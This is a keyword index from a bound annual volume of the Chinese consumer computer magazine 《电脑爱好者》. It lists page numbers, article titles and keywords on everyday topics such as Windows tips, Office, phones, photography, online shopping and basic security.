| 293 | 生活即时尚答 虫洞帮你忙 | 虫洞 | 328 | 笔记本分区不合理？让Windows 7自己帮C盘“减负” | 分区 |
| 244 | Excel+Word轻松自制随机出卷系统 | 出卷系统 | 329 | 如何隐藏Win7中的100MB/200MB分区 | 分区隐藏 |
| 223 | 软件联合 快速制作出门证 | 出门证 | 110 | 便捷分享 打开网页就能看 | 分享 |
| 376 | 撅屁股小人 有“币”快放 储蓄罐 | 储蓄罐 | 116 | 微博网站推广 分享无处不在 | 分享 |
| 122 | 让触控板变得更聪明 | 触控板 | 96 | 复印机坏了 打印机扫描仪临时替 | 复印 |
| 110 | 为本本触摸板巧装“智能锁” | 触摸板 | 81 | 调高安全级别 轻松复制网页 | 复制网页 |
| 341 | 免费资源巧利用 教你用好笔记本触摸板 | 触摸板 | 211 | 你复制 我粘贴 | 复制粘贴 |
| 234 | 大学生创业 在哪里跌倒 | 创业 | 293 | 高动态照片手机也能拍 | 高动态照片 |
| 193 | 磁盘配额管理 我的空间别乱动 | 磁盘配额 | 102 | 移动硬盘配高清电视有门道 | 高清电视 |
| 280 | 简单还免费 为你的手机存储卡提速 | 存储卡提速 | 379 | 好耳机还要推力够 购买高阻抗耳机要注意 | 高阻抗耳机 |
| 371 | 越养越肥！开薪小猪存钱罐 | 存钱罐 | 81 | 变下载专用 链接为我需格式 | 格式 |
| 235 | 巧用分节符 速制错格表 | 错格表 | 227 | 格式刷 文字之外的高效 | 格式刷 |
| 231 | Office文档编码打印全自动 | 打印 | 144 | Excel工具箱插件 帮你快速制作工资条 | 工资条 |
| 162 | 打印网页 只“剪”你需要的 | 打印网页 | 249 | 让工资显示自动出“彩” | 工资显示 |
| 115 | 方便的打印预览按钮哪里去了 | 打印预览 | 188 | 挖掘系统潜能 “手写”数学公式 | 公式 |
| 84 | 外出打印招贴更有勤快帮手 | 打印招贴 | 118 | 单元格快速显示公式 | 公式显示 |
| 292 | 不要错过一次打折 | 打折 | 290 | 591up公务员考试应战平台 | 公务员考试 |
| 101 | 网上大图批量下 | 大图下载 | 268 | 秋季公园个性摄影 | 公园摄影 |
| 236 | 过好大学的第一学期 | 大学 | 118 | 共享邻里资源超简单 | 共享 |
| 93 | 银行利率调整 按揭贷款速算 | 贷款速算 | 127 | 有线加无线双层路由器共享上网 | 共享上网 |
| 102 | 每天解决15个英语单词 | 单词 | 144 | 抛弃星空极速 实现多台电脑同时上网 | 共享上网 |
| 373 | 外形相似 单反单电差哪般 | 单反单电 | 133 | e时代购物分享有回报 | 购物分享 |
| 201 | 软件小管家 打造弹出式“桌面” | 弹出桌面 | 84 | 我有购物兔 淘宝返现乐不停 | 购物兔 |
| 290 | 弹指聊天（实时语音版） | 弹指聊天 | 139 | 谷歌地球运行慢 几招加速 | 谷歌地球 |
| 291 | 弹指聊天 | 弹指聊天 | 289 | Wind资讯股票基金债券投资专家HD | 股票 |
| 290 | 导航犬 navidog | 导航犬 | 60 | 绝对不鸡肋！——小容量固态硬盘优化应用十例 | 固态硬盘 |
| 334 | 贵有酷睿 廉选奔腾 低价笔记本又有新选择 | 低价笔记本 | 184 | 再多程序 也能一键关闭 | 关闭 |
| 103 | 邮箱地址不用贴 批量导入最省事 | 地址导入 | 209 | 为关机操作巧设“延时器” | 关机延时 |
| 351 | 我的数据在电线里跑 电力组网全面指南 | 电力组网 | 114 | 办公电脑忘关机 请个助手协助你 | 关机助手 |
| 201 | 双休假日 我有免费电脑保安 | 电脑保安 | 361 | 居家省钱妙招 自己动手灌墨盒 | 灌墨盒 |
| 62 | 红楼闲话电脑病 | 电脑病 | 271 | 一起来玩光绘画 | 光绘画 |
| 352 | 冬季电取暖 设备使用要注意 | 电取暖 |  |  |  |

# 关键词检索

#《电脑爱好者》· 合订本

| 页码 | 文章名 | 关键词 |
|---|---|---|
| 205 | 未雨绸缪 上网本添加“光盘”修复 | 光盘修复 |
| 349 | 让老IDE接口光驱发挥余热 | 光驱 |
| 136 | 不用修改hosts文件 如何看到无广告的视频 | 广告 |
| 154 | 网上看片 跳过广告绕道走 | 广告 |
| 163 | 去伪存真 横扫广告链接 | 广告链接 |
| 96 | 网上看视频 广告屏蔽掉 | 广告屏蔽 |
| 261 | 巧治广角照片的“畸变之痒” | 广角照片 |
| 290 | 国信金太阳手机证券 | 国信金太阳 |
| | H | |
| 116 | 函数代表我的心 | 函数 |
| 289 | 好习惯 | 好习惯 |
| 84 | 用合并MP3文件功能更快捷 | 合并MP3 |
| 161 | 合并分区 数据无损有妙招 | 合并分区 |
| 90 | 复制多处内容 一次性合并粘贴 | 合并粘贴 |
| 290 | 和谐动车 | 和谐动车 |
| 327 | 核芯显卡 比想象中更强大 | 核芯显卡 |
| 282 | 移花接木 帮助诺基亚手机解放红白键 | 红白键 |
| 270 | 秋高气爽拍红叶 | 红叶 |
| 169 | 360杀毒为办公族 电脑免疫Office宏病毒 | 宏病毒 |
| 140 | 借助无线 打造客厅互联网电视 | 互联网电视 |
| 336 | APU是否给力? 华硕K43T笔记本体验 | 华硕K43T |
| 140 | 藏起桌面图标 打造滑出面板 | 滑出桌面 |
| 82 | 复杂化学结构式 专用软件更方便 | 化学结构式 |
| 233 | 自己动手制作Top Sites效果画报 | 画报 |
| 106 | 话单的秘密: 我打了谁的电话 | 话单 |
| 152 | 崩溃、重启不怕 自有还魂妙药 | 还原 |
| 139 | 回到还原点找文件 其后软件仍不丢失 | 还原点 |
| 278 | Android手机变身电脑幻灯片控制器 | 幻灯片控制 |
| 114 | 快捷键令幻灯片切换更方便 | 幻灯片切换 |
| 83 | 幻灯画面切换可以自由控制 | 幻灯切换 |
| 113 | 那个异常的回车键 | 回车键 |
| 219 | 流水账汇总 当然要又快又准 | 汇总 |
| 247 | 多头并举 高效汇总报表 | 汇总 |
| 108 | 为自己和同事发出会议提醒 | 会议提醒 |
| 294 | 买东西手机帮你货比三家 | 货比三家 |
| | J | |
| 103 | 李代桃僵巧藏机密文件 | 机密 |
| 347 | 省电静音又舒适 机箱选择有学问 | 机箱 |
| 348 | 选择合适机箱 安然度过酷暑 | 机箱 |
| 360 | 背板走线成潮流 机箱电源搭配帮你选 | 机箱电源 |
| 132 | 无需辛苦赚积分 文库原汁原味下 | 积分 |
| 111 | 激光打印机拯救落水后的表单 | 激光打印机 |
| 346 | 办公室里的战争 三款普及型激光打印机全方位PK | 激光打印机 |
| 291 | 非诚勿扰的“吉他男” | 吉他男 |
| 359 | 寸金寸土的空间 就买高集成度小板 | 集成小板 |
| 116 | 几何画板乱码巧解决 | 几何画板 |
| 124 | PPT与几何画板完美结合 | 几何画板 |
| 232 | 术业有专攻 专业计算我最行 | 计算 |
| 125 | 怕泄密 那就换个记事本 | 记事本 |
| 108 | 加密文件既简单又安全 | 加密文件 |
| 294 | 买手机必备检测工具 | 检测工具 |
| 179 | 一页纸简历 如何才能做得更好? | 简历制作 |
| 188 | 巧用Win7截图 快速截取弹出菜单 | 截图 |
| 199 | 解密压缩包 我有非常技巧 | 解密压缩包 |
| 123 | 无惧多级压缩 解压只需一键 | 解压 |
| 118 | 让WinRAR解压更快一些 | 解压加速 |
| 99 | 忘记解压密码 也能找回下载文件 | 解压密码 |
| 277 | 模仿三星Touchwiz 让你手机界面更绚丽 | 界面 |
| 293 | 精打细算过日子 | 精打细算 |
| 27 | 绿色生活 家居物品DIY | 居家物品 |
| 211 | 设置专用工具 “透视”绝密文件 | 绝密文件 |
| | K | |
| 131 | 经典家庭版的卡拉永远OK | 卡拉OK |
| 282 | 迷你卡拉OK 随时随地K歌 | 卡拉OK |
| 20 | 卡片机特殊本领大比拼 | 卡片机 |
| 277 | 给你的手机装上开关吧 | 开关 |
| 194 | 开机加速 让自启动程序延迟运行 | 开机加速 |

| 页码 | 文章名 | 关键词 |
|---|---|---|
| 335 | 启动速度慢? 联想“小Y”开机优化攻略 | 开机优化 |
| 235 | 快速编排考场 轻松分派监考 | 考试 |
| 242 | 在校生3个月打赢考研时间战 | 考研 |
| 277 | 隔空取物 局域网拷贝文件很轻松 | 拷贝 |
| 88 | 克隆地址 让家中多台电脑都上网 | 克隆地址 |
| 228 | 在电脑屏幕的右上角张贴课表 | 课表 |
| 240 | 编制课程表 妙计不再难 | 课程表 |
| 104 | 课件用视频 困惑一一解 | 课件 |
| 252 | 多管齐下 PowerPoint课件全面“瘦身” | 课件瘦身 |
| 239 | 空白页删除有妙招 | 空白页 |
| 112 | 1分钟激活非会员的离线下载空间 | 空间激活 |
| 118 | 巧妙删除所有空行 | 空行删除 |
| 102 | 商品大图抠下 美图无处可逃 | 抠图 |
| 164 | 看韩剧就用酷盘遥控下载 | 酷盘遥控 |
| 102 | 快递查询伤不起 友商快递超给力 | 快递查询 |
| 209 | 系统快捷键 速速报上名来 | 快捷键 |
| 133 | 你要捆绑安装 我要绿色服务 | 捆绑安装 |
| 215 | 图片文件捆绑木马揭秘 | 捆绑木马 |
| 185 | 巧改注册表 显示指定文件的扩展名 | 扩展名 |
| 191 | 收放自如 显示指定扩展名 | 扩展名 |
| | L | |
| 157 | 亲手打造自动化一键垃圾清理器 | 垃圾清理器 |
| 85 | 跟垃圾邮件说再见 我用60分钟邮箱 | 垃圾邮件 |
| 354 | 不要迟疑了 蓝光光驱不会普及的 | 蓝光光驱 |
| 284 | 只能单向传输? 塞班3和山寨机蓝牙传情 | 蓝牙 |
| 344 | “牙”好功能才够强 教你用好笔记本的蓝牙功能 | 蓝牙 |
| 74 | 别扔 三招唤醒老电脑 | 老电脑 |
| 367 | 老虎机存钱罐 | 老虎机 |
| 237 | e时代 轻轻松松做老师 | 老师 |
| 257 | 巧施魔法 扮美老照片 | 老照片 |
| 291 | 乐友 | 乐友 |
| 167 | 一键给迅雷离线空间资源续期 | 离线空间 |
| 137 | 手机离线下载 我能实现 | 离线下载 |
| 126 | 一键清除Google的网络历史记录 | 历史记录 |
| 254 | 制作专业级的立体照片 | 立体照片 |
| 96 | 巧用“连环锁”打造“绝密天书” | 连环锁 |
| 116 | 不费流量收藏QQ音乐 | 流量 |
| 103 | 没有无缘无故的流量费 | 流量费 |
| 287 | 实际流量VS计费流量——莫让流量监控软件欺骗你 | 流量监控 |
| 136 | 录制演示 让演讲跟片走 | 录制演示 |
| 155 | 成批去掉路径 我有好办法 | 路径去除 |
| 278 | 缤纷旅途自驾游 我有“旅动缤” | 旅动缤 |
| 94 | 出国旅游 梦想变成完美计划 | 旅游 |
| 229 | 打造你的黄金履历表 | 履历表 |
| 167 | 绿化杀软 你也行 | 绿化杀软 |
| 114 | 绿色软件安装程序乱码也能看 | 乱码 |
| 279 | 大板凳 论坛看帖更方便 | 论坛看帖 |
| 365 | 霸气的创意 螺丝挂肉套套 | 螺丝挂钩 |
| 370 | 新潮就是潮流吗? 冷眼看裸眼3D手机 | 裸眼3D手机 |
| 276 | 让照片中的落叶轻舞飞扬 | 落叶 |
| | M | |
| 290 | 码上淘 | 码上淘 |
| 295 | 对排队买电影票说 NO! | 买电影票 |
| 279 | 利器在手 Android手机看漫画不愁 | 漫画 |
| 80 | 不用软件 通过网络硬盘漫游表情 | 漫游表情 |
| 281 | 界面不美观? 短信、拨号、联系人一站式美化方案 | 美化 |
| 290 | 美食达人 | 美食达人 |
| 294 | 身边美食拍 | 美食拍 |
| 122 | 把你的美食照片变得垂涎欲滴 | 美食照片 |
| 92 | 私密打印 避免被人错拿 | 秘密打印 |
| 81 | 常用打包密码存好 一点即用 | 密码 |
| 130 | 高版本Excel密码保护 WinRAR来解除 | 密码解除 |
| 87 | 密钥因人而异 泄密有据可查 | 密钥 |
| 283 | 发短信不要钱 微信、米聊你选谁 | 免费短信 |
| 224 | 如何制作个性的学生名片 | 名片 |
| 235 | 工作名片高效设计印刷一法 | 名片 |
| 290 | 名片碰碰 | 名片碰碰 |

# 关键词检索

## N

| 页码 | 文章名 | 关键词 |
|---|---|---|
|182|小小名片制作奥妙之所在|名片制作|
|289|魔幻时刻相机 Magic Hour-Camera|魔幻时刻相机|
|184|双进程守护木马 也能轻松Kill|木马|
|217|下载图书无目录 借助软件自己加|目录|
|157|自编简易型“树形目录制造者”|目录制造者|
|127|大游戏引爆内存“炸弹”|内存“炸弹”|
|204|媲美SSD硬盘 打造高速内存系统|内存系统|
|208|系统内置程序 也能轻松掌控|内置程序|
|164|给应用程序设定闹钟(一)|闹钟|
|164|给应用程序设定闹钟(二)|闹钟|
|290|愤怒的小鸟闹钟|闹钟|
|293|柯南|你也是“柯南”|

## N

| 页码 | 文章名 | 关键词 |
|---|---|---|
|173|让上网像风一样飞翔|上网|
|248|能聊天不能上网 找DNS服务器算账|上网|
|324|2000元 搅机还是上网本？|上网本|
|342|3000元的实用之选 上网本“套装”选购攻略|上网本套装|
|291|用摄像头查单词|摄像头查单词|
|267|翻转世界 酷玩摄影|摄影|
|332|笔记本想“永葆青春”？升级BIOS少不了|升级BIOS|
|264|侧脸的生活照一样转成正式照|生活照|
|129|本周有谁过生日 给点颜色全了然|生日|
|293|声控相机 拍照好帮手|声控相机|
|376|V8引擎造型声效削笔刀|声效削笔刀|
|157|利用AA3.0软件分离两种声音|声音分离|
|103|讲座提取音声 广播录制音频|声音提取|

## P

| 页码 | 文章名 | 关键词 |
|---|---|---|
|257|关于拍摄电视屏幕图像的基本技巧|拍摄技巧|
|261|拍摄实录 记录灾后孩子们的欢声与笑语|拍摄技巧|
|262|拍摄夜景与人物同景照片的基本要点|拍摄技巧|
|126|影楼拍照防丢防错|拍照防丢|
|349|安全至上 新国标排插产品推荐|排插|
|80|Excel轻松排名次我也行|排名次|
|102|找不到移动盘符怎么办|盘符|
|82|批量创建全班文件夹更便捷|批量创建文件夹|
|116|有备无患 QQ群成员批量导出|批量导出|
|92|新歌批量下不停|批量下载|
|130|一键批量制作学生报名条|批量制作|
|228|巧用Excel 2010 我的批注不一样|批注|
|266|将偏色问题一网打尽|偏色|
|98|差涩爱意难出口 漂流小瓶传给他|漂流小瓶|
|269|减法生活 用不规则拼图精简照片|拼图|
|339|联想“揽局” 平板电脑结束暴利时代|平板电脑|
|143|平面广告“动”起来|平面广告|
|114|优酷反屏蔽广告还需道高一尺|屏蔽广告|
|128|你用的电脑屏幕尺子准吗|屏幕尺子|
|165|旁门左道 打造屏幕监控器|屏幕监控器|
|123|屏幕截图远水解近渴|屏幕截取|
|364|动物红酒瓶塞|瓶塞|
|84|破解保护 只需换个格式|破解保护|

| 页码 | 文章名 | 关键词 |
|---|---|---|
|367|Android系统要省电 优化技巧帮你忙|省电|
|291|时尚家居|时尚家居|
|284|彻底告别按键 诺基亚手机触控才给力|手机触控|
|279|Android手机电子狗 助你出行安全|手机电子狗|
|286|有备无患 手机丢失轻松应对|手机丢失|
|378|马大哈不用愁 看我手机也三防|手机三防|
|292|手机PS|手机上的PS|
|287|手机看新闻 资讯尽掌握|手机新闻|
|294|手机信号差的往这看|手机信号|
|49|手机也是照相机 照相手机如何选|手机照相|
|295|有了它 手机照相变成铅笔画|手机照相|
|280|用魔秀 做自己的个性手机主题|手机主题|
|84|搜索大文件可以更方便|搜索大文件|
|190|系统搜索升级 压缩文件内容也能搜|搜索升级|
|269|轻松搜索所需照片|搜索照片|
|83|生成随机密码 字母数字任取|随机密码|

## Q

| 页码 | 文章名 | 关键词 |
|---|---|---|
|192|巧改Windows 7启动画面 让女友无处不在|启动画面|
|81|迁移个人数据 点点鼠标就行|迁移数据|
|289|俏娟来电|俏娟来电|
|291|维系好你的亲情|亲情|
|328|火眼金睛 教你识破低价轻薄本中的猫腻|轻薄本|
|107|月考成绩是升是降 趋势图你直观明了|趋势图|
|137|小技巧去除迅雷广告|去除广告|
|86|不用火狐 看视频也可去广告|去广告|
|293|全能播放器|全能播放器|
|100|给客户群发邮件 您真的会么|群发邮件|
|144|不花钱也群发邮件|群发邮件|

## T

| 页码 | 文章名 | 关键词 |
|---|---|---|
|367|超可爱小狗台灯|台灯|
|367|太阳能彩虹制造器|太阳能|
|122|市面上价格太高 拍照后淘宝寻找|淘宝|
|101|快乐购物 淘宝返现商品看得见|淘宝返现|
|91|不需每天登录 自动领取淘金币|淘金币|
|135|怎样从网络视频中提取MP3|提取MP3|
|226|双重查找巧替换特殊内容|替换|
|251|指定小括号成批换成大括号|替换|
|114|用上替身邮 垃圾邮件靠边站|替身邮|
|117|小作坊也能作出天籁之音|天籁之音|
|289|天天浏览器|天天浏览器|
|232|表格填写 自动复制有高招|填写表格|
|290|挑西瓜|挑西瓜|
|233|今年过节不跳槽|跳槽|
|375|手机必选伴侣 贴膜怎么选|贴膜|
|92|酷狗只听音乐不听广告|听音乐|
|185|让迅雷下载分类与Win7库同步|同步|
|98|召集同城好友 相约绿水青山|同城旅行|
|99|办公用品统计查询省时省心|统计查询|
|373|偷钱喵储蓄罐|偷钱喵|
|166|潜伏 偷听微博不让TA知道|偷听微博|
|120|晚会节目伴奏投影统统搞定|投影|
|280|涂鸦+语音 微博还能这样玩|涂鸦|
|265|AE吐字特效的制作|吐字特效|
|285|团购管家 管理团购更轻松|团购|
|289|团购大全|团购大全|
|126|和QQ游戏退出广告说再见|退出广告|
|151|一站搞定 壹装光盘脱机用|脱机用光盘|

## R

| 页码 | 文章名 | 关键词 |
|---|---|---|
|294|轻松梳理你的人脉网络|人脉网络|
|286|任务达人 助你实现玩机达人梦想|任务达人|
|185|神奇工具 让Win7任务栏空间翻倍|任务栏|
|267|拍好秋季迷人的日出日落|日出日落|
|248|打造一个简单方便的日记本|日记本|
|172|先预测 解压工作不跑冤枉路|容量预测|
|184|黑客入侵之SQL注入|入侵|
|192|网站安全的大敌——弱口令|弱口令|

## S

| 页码 | 文章名 | 关键词 |
|---|---|---|
|292|塞班变Android|塞班|
|294|塞班短信界面一点都不土|塞班短信|
|332|让笔记本更“冷静” CFan教你挑选散热底座|散热底座|
|112|养眼让液晶屏24小时自动调色温|色温|
|187|让所有查看模式都能筛选排序|筛选排序|
|171|闪存盘注水 挤干水再用|闪存盘|
|108|商品是否中意当然要看大图|商品大图|
|83|上传音乐要会员 随身盘帮你忙|上传音乐|

## W

| 页码 | 文章名 | 关键词 |
|---|---|---|
|119|让外链贴图现身为我所用|外链|
|105|完形填空随机 英语课堂生辉|完形填空|
|208|误装Win8?自己手动挽救Win7|挽救Win7|
|42|足不出户 淘遍全世界|网购|
|371|买的没有卖的精 网购耳机真假难辨|网购耳机|
|107|网购服装 PS帮你试穿|网购服装|
|269|还原网购服装的真面目|网购服装|
|203|深度解析 防范网购木马|网购木马|

## 关键词检索 —— 《电脑爱好者》·合订本

| 页码 | 文章名称 | 关键词 | 页码 | 文章名称 | 关键词 |
|------|----------|--------|------|----------|--------|
| 151 | 让网卡同时支持DHCP和固定IP | 网卡 | 134 | 大道至简 做到就是养生(二)——清淡饮食 | 养生 |
| 295 | 网络对讲不花钱 我用手机YY | 网络对讲 | 231 | 健康养生从轻松掌握经络穴位开始 | 养生 |
| 357 | 解决长距离网络共享问题 | 网络共享 | 119 | 百千份邀请函半小时内发出 | 邀请函 |
| 145 | 一分为二 网络购物更方便 | 网络购物 | 374 | 抱枕遥控器 | 遥控器 |
| 129 | 调整网络连接的优先顺序 | 网络链接速度 | 353 | 市售廉价IPS液晶显示器搜罗 | 液晶显示器 |
| 295 | 用网络听收音机 | 网络收音机 | 112 | 一键采集 资料进笼好轻松 | 一键采集 |
| 292 | 网络小说塔读找 | 网络小说 | 96 | 身处险境 一键连发呼救信息 | 一键连发 |
| 47 | 揭秘你所不了解的网络新职业 | 网络职业 | 199 | 创建使用方案 设置一键切换 | 一键切换 |
| 132 | 文件下载到网盘 随用随取真方便 | 网盘 | 280 | 告别 "漏网之鱼" 所有程序都能 "一键退出" | 一键退出 |
| 284 | 手机摇一摇 伪造来电助你顺利 "脱身" | 伪造来电 | 272 | 撕掉他们的衣服 | 衣服 |
| 291 | 位置警报 Proxi | 位置警报 | 294 | 让手机变身移动Office利器 | 移动Office |
| 293 | 温度多少我来告诉你 | 温度 | 186 | 系统达人随身宝——打造移动版专用WinXP | 移动版 |
| 209 | 记得几个文字 也能搜出文本文件 | 文本搜索 | 209 | 定制注册表 让移动中心适用所有Win7 | 移动中心 |
| 242 | 不装字库 文档漂亮依旧 | 文档 | 291 | 蚁信 | 蚁信 |
| 218 | 保护文档安全 Word文档快速加密 | 文档安全 | 105 | 网上益智体验 链接转至手机 | 益智体验 |
| 206 | 加密不再繁琐 文档随时加密 | 文档加密 | 262 | 打造不同年代播放效果的音乐 | 音乐 |
| 90 | PDF文档取所需 更有他方妙法 | 文档提取 | 162 | 拿什么拯救你 我的隐私文件 | 隐私文件 |
| 86 | 分门别类找文件 陈旧无用快清理 | 文件查找 | 352 | 近期热门 英特尔主流CPU推荐与分析 | 英特尔 |
| 246 | 医治Word打开文件的 "傻毛病" | 文件打开 | 365 | 高清视听过暑假 影音MP4如何买 | 影音MP4 |
| 293 | 无线好不好用 问我就知道 | 无线 | 206 | 反客为主 控制映像劫持远离病毒 | 映像劫持 |
| 150 | 内网外网 平板访问 "无线"通 | 无线访问 | 354 | 找回被狮子吃掉的硬盘 | 硬盘 |
| 351 | 还用有线你就OUT啦! 无线键鼠套装购买建议 | 无线键鼠 | 359 | 都是3TB 有什么不一样 | 硬盘 |
| 154 | 管好无线局域网 权限流量任我行 | 无线局域网 | 358 | 硬盘有坏道? 手工把它屏蔽掉 | 硬盘坏道 |
| 198 | 系统重装不担心 无线设置能备份 | 无线设置 | 160 | 旧硬盘拆下收藏 存细目随时检索 | 硬盘检索 |
| 198 | 误关联的应用程序设置巧取消 | 误关联 | 295 | 走到哪我都要享受优惠 | 优惠 |

### X

| 页码 | 文章名称 | 关键词 | 页码 | 文章名称 | 关键词 |
|------|----------|--------|------|----------|--------|
| 210 | 系统安全守护神——TrustedInstaller账户解密 | 系统安全 | 198 | 电脑长 "利齿" "生吞"优盘病毒 | 优盘病毒 |
| 149 | 勤、快加省心 成就系统备份达人 | 系统备份 | 142 | 优盘无地可容 光盘扩容备份 | 优盘扩容 |
| 216 | 让崩溃的Windows系统回光返照 | 系统崩溃 | 126 | 淘宝同店购物 不必多花邮费 | 邮费 |
| 195 | 安全大扫除 扒出系统中暗藏 "间谍" | 系统大扫除 | 155 | 制定规则 实现邮件管理自动化 | 邮件管理 |
| 153 | 抓住系统的救命稻草 | 系统恢复 | 172 | 邮件加密收发 何需另借工具 | 邮件加密 |
| 142 | 用记事本轻松获取系统配置信息 | 系统配置 | 282 | 巧妙设置 邮件到达免费通知 | 邮件通知 |
| 211 | 我的系统特效我做主 | 系统特效 | 138 | 电子邮箱是否被盗 一查便知 | 邮箱被盗 |
| 165 | 放下身份 让系统运行更高效 | 系统效率 | 92 | 邮箱积分换网盘 简单又划算 | 邮箱积分 |
| 111 | 四步并一步 下载只要点一下 | 下载 | 137 | 一招加快网易邮箱的访问速度 | 邮箱加速 |
| 120 | 下载要我等 Chrome说没可能 | 下载 | 138 | 借助网盘打造 "三位一体"的云版QQ | 云版QQ |
| 140 | 拆掉下载门槛 让下载更自由 | 下载 | 285 | 云比价 贼便宜 | 云比价 |
| 130 | 一秒钟获得下载地址 标清高清任你选 | 下载地址 | 159 | 妙用转换器 揭开云端神秘面纱 | 云端 |
| 92 | 下载歌曲去多补缺 | 下载歌曲 | 161 | 自制脚本获取 云端下载地址 | 云端 |
| 114 | 合并完成就删除 下载空间莫要占 | 下载空间 | 121 | 云端传输存储攻略 化解空间流量限制 | 云端传输 |
| 200 | 小漏洞大危害——数据库下载漏洞 | 下载漏洞 | 167 | 找到云端软件的真正下载地址 | 云端软件 |
| 94 | 以最低碳的模式下载资源 | 下载资源 | 110 | 构建云服务 只需零成本 | 云服务 |
| 358 | 融合的时代 独显、集显这么选 | 显卡 | 282 | 无论在何处 数据 "云同步" | 云同步 |
| 352 | 炎炎夏日 ATI显卡巧降温 | 显卡降温 | 141 | 云转码 打造免费移动影院 | 云转码 |
| 126 | 别让显示精度 "忽悠"你 | 显示精度 | 151 | 找回 "丢失"的相片 | 相片找回 |

### Y

| 页码 | 文章名称 | 关键词 | 页码 | 文章名称 | 关键词 |
|------|----------|--------|------|----------|--------|
| 102 | 拖拖拉拉 压缩包操作超简单 | 压缩包 | 91 | 莫说相似图难找 借你一双慧眼吧 | 相似图 |
| 139 | 批量给压缩包添加公司简介 | 压缩包注释 | 251 | 做一名网络销售师 你准备好了吗 | 销售 |
| 187 | 压缩上传也能一步操作 | 压缩上传 | 185 | Windows Installer程序包错误巧修复 | 修复 |
| 142 | 压缩工作量再大 只花主人一分钟 | 压缩提效 | 202 | 快速创建虚拟机 我有我方法 | 虚拟机 |
| 112 | 上传文档太臃肿 Word压缩来帮忙 | 压缩文档 | 278 | Android手机为自己安排虚拟来电 | 虚拟来电 |
| 83 | 双击打开的压缩文件 你藏到了哪里 | 压缩文件 | 126 | 网络版软件借道回环虚拟网卡 | 虚拟网卡 |
| 234 | 唐诗三百首快速转分页演示文稿 | 演示 | 194 | 巧设虚拟硬盘 文件 "藏"起来 | 虚拟硬盘 |
| 241 | WinRAR也能打包PowerPoint演示文稿 | 演示文稿 | 249 | 规范选择题选项 我有妙招 | 选择题 |
| 294 | 我的iPhone能演奏 | 演奏 | 113 | 迅雷做兼职 验明软件正身 | 迅雷 |
| 134 | 大道至简 做到就是养生(一) | 养生 | 94 | 杜绝造成迅雷假死的小广告 | 迅雷假死 |

### Z

| 页码 | 文章名称 | 关键词 | 页码 | 文章名称 | 关键词 |
|------|----------|--------|------|----------|--------|
| 343 | "战地"求生存 哪些笔记本可以挑战《战地3》 | 战地3 | 102 | 是谁盗用了我的照片 | 照片 |
| 289 | 掌中英语 | 掌中英语 | 260 | 相机也能这么玩 让照片动起来(上) | 照片 |
| 118 | 账号密码U盘带 丢失也不怕 | 账号密码 | 260 | 相机也能这么玩 让照片动起来(下) | 照片 |
| 242 | 解读名企2012校园招聘 | 招聘 | 285 | 照片 你好 | 照片 |
| 293 | 找歌神器 | 找歌神器 | 294 | 让iPhone轻松拍出1200万像素照片 | 照片 |
| 218 | 通过部门主管 直接找到工作 | 找工作 | 98 | 冲印数码照片前别忘了长宽比 | 照片冲印 |
| 290 | 找找地图 | 找找地图 | 265 | 如何修复玻璃反光问题的照片 | 照片反光 |
| 288 | 让爱机成为照顾 "宝宝"的好帮手 | 照顾宝宝 | 80 | 照片分享压缩 服务各具特色 | 照片分享 |
| 94 | 照片中谁是那个她 圈出来告诉你 | 照片 | 128 | Excel联手批处理 照片更名一气呵成 | 照片更名 |
| 102 | 让女友照片充满QQ面板 | 照片 | 117 | 数码照片按拍照日期自动归类 | 照片归类 |
| 273 | 倾斜照片巧调正 原始尺寸不改变 | 照片倾斜 |
| 118 | 照片上传下载只需一拖一键 | 照片上传 |
| 248 | 我的记录能显示照片信息 | 照片显示 |